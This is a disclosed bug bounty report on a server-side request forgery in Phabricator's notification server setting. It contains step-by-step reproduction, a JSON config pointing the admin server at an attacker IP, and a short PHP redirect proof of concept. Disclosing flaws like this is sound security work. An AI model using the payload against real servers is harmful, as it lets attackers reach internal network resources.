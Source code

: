 # SSRF in notifications.server configuration

## Report Details
- **Report ID**: 850114
- **URL**: https://hackerone.com/reports/850114
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-04-15T04:21:16.539Z
- **Disclosed**: 2020-05-15T14:10:22.270Z

## Reporter
- **Username**: codeprivate
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
<mongoose>

Modifying the notification server settings so that it connects to a malicious server. An attacker is able to redirect traffic from the vulnerable application to internal or external network resources.
Steps To Reproduce:
---------------------
 1. Open your phabricator installation authenticated with an administrator user.
 2. Go to Config> Settings> notification.servers
 3. Copy the values ​​of "Simple Example" and replace them in "Database Value" with the attacker's data. ( in type admin block )

something like that:
```
[
  {
    "type": "client",
    "host": "phabricator.mycompany.com",
    "port": 22280,
    "protocol": "https"
  },
  {
    "type": "admin",
    "host": "X.X.X.X",
    "port": 22281,
    "protocol": "http"
  }
]
```
Being X.X.X.X is the IP of the malicious server.

4 . The malicious server receives a GET request from the victim server to the path "/ status", puts an index.php file in that directory of his server and can redirect the destination of the original request to internal or external assets.

PoC
```
<?php
header("Location: http://anywere.loc/bad_intentions");
?>
```

</mongoose>

## Impact

In a Server-Side Request Forgery (SSRF) attack, the attacker can abuse functionality on the server to read or update internal resources, and scan for internal ports and get the versions of the services running on the server.
Referer: https://www.owasp.org/index.php/Server_Side_Request_Forgery

I made a video exploiting this vulnerability in my own phabricator installation. demonstrating the steps to reproduce, and making 2 types of attacks possible with this.
 (F788864)

## Attachments
- SSRF-Phabricator-POC.mp4
